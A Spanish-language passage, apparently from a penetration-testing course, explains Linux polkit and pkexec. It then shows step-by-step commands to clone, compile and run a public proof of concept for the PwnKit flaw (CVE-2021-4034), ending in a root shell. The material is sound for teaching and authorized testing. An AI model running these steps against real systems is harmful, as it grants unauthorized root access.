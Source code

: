 PolicyKit (`polkit`) es un servicio de autorización en sistemas operativos basados en Linux que permite que el software de usuario y los componentes del sistema se comuniquen entre sí si el software de usuario está autorizado para hacerlo. Para verificar si el software de usuario está autorizado para esta instrucción, se consulta a `polkit`. Es posible establecer cómo se otorgan los permisos de manera predeterminada para cada usuario y aplicación. Por ejemplo, para cada usuario, se puede establecer si la operación debe ser generalmente permitida o prohibida, o si se requiere autorización como administrador o como un usuario separado con una validez limitada a una sola vez, proceso, sesión o ilimitada. Para usuarios y grupos individuales, las autorizaciones se pueden asignar de manera individual.

Polkit trabaja con dos grupos de archivos:

1. actions/policies (`/usr/share/polkit-1/actions`)
2. rules (`/usr/share/polkit-1/rules.d`)

Polkit también tiene `local authority` rules (reglas de autoridad local) que pueden ser usadas para establecer o eliminar permisos adicionales para usuarios y grupos. Las reglas personalizadas pueden colocarse en el directorio `/etc/polkit-1/localauthority/50-local.d` con la extensión de archivo `.pkla`.

PolKit también viene con tres programas adicionales:

- `pkexec` - ejecuta un programa con los derechos de otro usuario o con derechos de root
- `pkaction` - puede ser usado para mostrar acciones
- `pkcheck` - puede ser usado para verificar si un proceso está autorizado para una acción específica

La herramienta más interesante para nosotros, en este caso, es `pkexec` porque realiza la misma tarea que `sudo` y puede ejecutar un programa con los derechos de otro usuario o root.

```r
cry0l1t3@nix02:~$ # pkexec -u <user> <command>
cry0l1t3@nix02:~$ pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

En la herramienta `pkexec`, se encontró la vulnerabilidad de corrupción de memoria con el identificador [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034), también conocida como [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034), que también conduce a la escalación de privilegios. Esta vulnerabilidad estuvo oculta durante más de diez años, y nadie puede decir con precisión cuándo fue descubierta y explotada. Finalmente, en noviembre de 2021, esta vulnerabilidad fue publicada y corregida dos meses después.

Para explotar esta vulnerabilidad, necesitamos descargar un [PoC](https://github.com/arthepsy/CVE-2021-4034) y compilarlo en el sistema objetivo o en una copia que hayamos hecho.

```r
cry0l1t3@nix02:~$ git clone https://github.com/arthepsy/CVE-2021-4034.git
cry0l1t3@nix02:~$ cd CVE-2021-4034
cry0l1t3@nix02:~$ gcc cve-2021-4034-poc.c -o poc
```

Una vez que hemos compilado el código, podemos ejecutarlo sin más preámbulos. Después de la ejecución, cambiamos de la shell estándar (`sh`) a Bash (`bash`) y verificamos los IDs del usuario.

```r
cry0l1t3@nix02:~$ ./poc

# id

uid=0(root) gid=0(root) groups=0(root)
```